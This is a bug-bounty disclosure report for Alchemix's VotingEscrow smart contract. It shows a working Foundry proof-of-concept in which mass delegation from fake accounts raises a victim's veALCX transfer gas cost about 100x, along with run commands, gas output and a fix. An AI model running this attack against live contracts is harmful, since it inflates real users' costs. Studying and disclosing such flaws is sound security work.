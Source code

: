 
# Griefing Attack using `delegate` will expose User to `100x` Cost to transfer tokens

Submitted on May 18th 2024 at 17:34:53 UTC by @Breeje for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31410

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro

Currently, `MAX_DELEGATES` is set to `1024`, opening up a Griefing Attack Vector that can make it `100x` more expensive for users to transfer tokens.

## Vulnerability Details

Any user can delegate the balance of the locked NFT amount to anyone by calling the `delegate` function:

```solidity

    function delegate(address delegatee) public {
        require(delegatee != address(0), "cannot delegate to zero address");
        return _delegate(msg.sender, delegatee);
    }

```


As the delegated tokens are maintained in an array that can be vulnerable to DOS attack, the `VotingEscrow` has a safety check of `MAX_DELEGATES = 1024` preventing an address from having a huge array.

```solidity

    /// @notice Maximum number of delegates a token can have
    uint256 public constant MAX_DELEGATES = 1024; // avoid too much gas

```

```solidity

    require(dstTokensOld.length + 1 <= MAX_DELEGATES, "dst would have too many tokenIds");

```

Delegating from an address with a shorter token list to one with a longer list is cheaper. An attacker can create a new address, lock tokens, and delegate to the victim's address, significantly increasing the gas cost for the victim to transfer `veALCX` tokens.

In the current implementation, it costs users more than 23M gas to transfer a `veALCX` token when there are 1023 delegates (see PoC for details). 

Although this won't cause a DoS due to Ethereum's gas limit of 30M, but it will increase the gas cost for users by **100x**.

## Impact Details

Griefing Attack exposes users to a `100x` increase in the cost of transferring tokens.

## Recommendation

While testing, I found that Keeping `MAX_DELEGATES` value to `128` will max cost User close to 3M Gas, around `10x` the normal cost. This can provide a balance between offering delegation and protecting users from a Griefing Attack that could increase their costs by `100x`.


## Proof of Concept

#### Test Code

Add the following test function in `VotingEscrow.t.sol` test.

```solidity

    function testDelegateLimitAttack() public {

        // 1. Create Lock
        deal(bpt, address(this), TOKEN_1M);
        IERC20(bpt).approve(address(veALCX), TOKEN_1M);
        uint256 tokenId = veALCX.createLock(TOKEN_1, 3 * ONE_WEEK, false);
        
        // 2. Have 1023 Fake Accounts which delegates to this address.
        for(uint256 i = 0; i < veALCX.MAX_DELEGATES() - 1; i++) {
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 2);
            address fakeAccount = address(uint160(420 + i));
            deal(bpt, fakeAccount, TOKEN_1);
            vm.startPrank(fakeAccount);
            IERC20(bpt).approve(address(veALCX), TOKEN_1);
            veALCX.createLock(TOKEN_1, 3 * ONE_WEEK, false);
            veALCX.delegate(address(this));
            vm.stopPrank();
        }
        
        hevm.warp(block.timestamp + 3 * ONE_WEEK + nextEpoch);

        uint256 lockEnd = veALCX.lockEnd(tokenId);
        hevm.warp(block.timestamp + lockEnd);
        
        veALCX.startCooldown(tokenId);
        hevm.warp(block.timestamp + nextEpoch);

        // 3. Check gas used to transfer the token
        uint initialGas = gasleft();
        veALCX.safeTransferFrom(veALCX.ownerOf(tokenId), beef, tokenId);
        uint gasUsed = initialGas - gasleft();
        console2.log("Gas Used for 1023 Delegate = ", gasUsed);
    }

```

To compare gas usage with 1 delegate, run the following:

```solidity

    function testDelegateLimitAttack() public {

        // 1. Create Lock
        deal(bpt, address(this), TOKEN_1M);
        IERC20(bpt).approve(address(veALCX), TOKEN_1M);
        uint256 tokenId = veALCX.createLock(TOKEN_1, 3 * ONE_WEEK, false);
        
        // 2. Have 1023 Fake Accounts which delegates to this address.
        // for(uint256 i = 0; i < veALCX.MAX_DELEGATES() - 1; i++) {
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 2);
            address fakeAccount = address(uint160(420 + 1));
            deal(bpt, fakeAccount, TOKEN_1);
            vm.startPrank(fakeAccount);
            IERC20(bpt).approve(address(veALCX), TOKEN_1);
            veALCX.createLock(TOKEN_1, 3 * ONE_WEEK, false);
            veALCX.delegate(address(this));
            vm.stopPrank();
        // }
        
        hevm.warp(block.timestamp + 3 * ONE_WEEK + nextEpoch);

        uint256 lockEnd = veALCX.lockEnd(tokenId);
        hevm.warp(block.timestamp + lockEnd);
        
        veALCX.startCooldown(tokenId);
        hevm.warp(block.timestamp + nextEpoch);

        // 3. Check gas used to transfer the token
        uint initialGas = gasleft();
        veALCX.safeTransferFrom(veALCX.ownerOf(tokenId), beef, tokenId);
        uint gasUsed = initialGas - gasleft();
        console2.log("Gas Used for 1 Delegate = ", gasUsed);
    }

```

#### Running the code

Use the following command to run the code:

```powershell

  forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/${ALCHEMY_API} --match-test testDelegateLimitAttack --fork-block-number 17133822 -vvv

```

#### Result

Gas required to transfer token with 1023 delegates:

```powershell

    Running 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
    [PASS] testDelegateLimitAttack() (gas: 12606294184)
    Logs:
      Gas Used for 1023 Delegate =  23442846

    Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.26s

    Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)

```

Gas required to transfer token with 1 delegate:

```powershell

    Running 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
    [PASS] testDelegateLimitAttack() (gas: 2636939)
    Logs:
      Gas Used for 1 Delegate =  266145

    Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 20.40ms

    Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)

```

#### Analysis of Result

* Gas required to transfer token with 1 delegate: 266k Gas

* Gas required to transfer token with 1023 delegates: 23M Gas

Given Ethereum's gas limit of 30M, the transfer function won't cause a DoS, but the gas cost can be increased by almost `100x` through this Griefing Attack.

As suggested in recommendation: By setting `MAX_DELEGATES` to 128, the gas cost required was 3.1M, close to `10x` the normal cost, striking a balance between providing the delegation feature and protecting users from this Griefing Attack.